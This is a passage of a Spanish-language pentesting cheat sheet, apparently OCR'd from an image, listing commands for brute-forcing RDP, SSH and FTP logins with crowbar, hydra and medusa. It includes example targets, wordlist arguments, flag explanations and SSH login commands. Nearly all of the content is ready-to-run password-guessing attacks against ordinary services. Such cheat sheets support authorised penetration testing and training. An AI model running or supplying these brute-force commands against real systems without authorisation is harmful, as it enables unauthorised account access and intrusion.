 ### 7. **Cracking RDP con crowbar:**
```bash
crowbar -b rdp -u user -C password_wordlist -s [IP] -v
```

---

# 🔑 SSH (Secure Shell)

### 1. **Cracking SSH con hydra:**
```bash
hydra -l usuario -P lista_de_contraseñas.txt ssh://IP -t 4
```
  _Ejemplo_: 
```bash
hydra -l root -P passwords.txt ssh://192.168.1.100 -t 4
```

### 2. **Cracking SSH con medusa:**
```bash
medusa -h <IP> -n <PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```
  - `-h`: Dirección IP del destino  
  - `-n`: Puerto SSH (por defecto el 22)  
  - `-u`: Nombre de usuario para el ataque  
  - `-P`: Lista de contraseñas  
  - `-M`: Módulo SSH en Medusa  
  - `-t`: Número de intentos simultáneos

### 3. **Conexión SSH:**
```bash
ssh sshuser@<IP> -p PORT
```
```bash
ssh root@10.10.10.10 -i id_rsa
```

---

# 🌐 FTP (File Transfer Protocol)

### 1. **Cracking FTP con hydra:**
```bash
hydra -l usuario -P lista.txt ftp://IP -t 4
```
  _Ejemplo_: 
```bash
hydra -l anonymous -P passwords.txt ftp://192.168.1.20 -t 4
```

### 2. **Cracking FTP con medusa:**
```bash
medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5
```
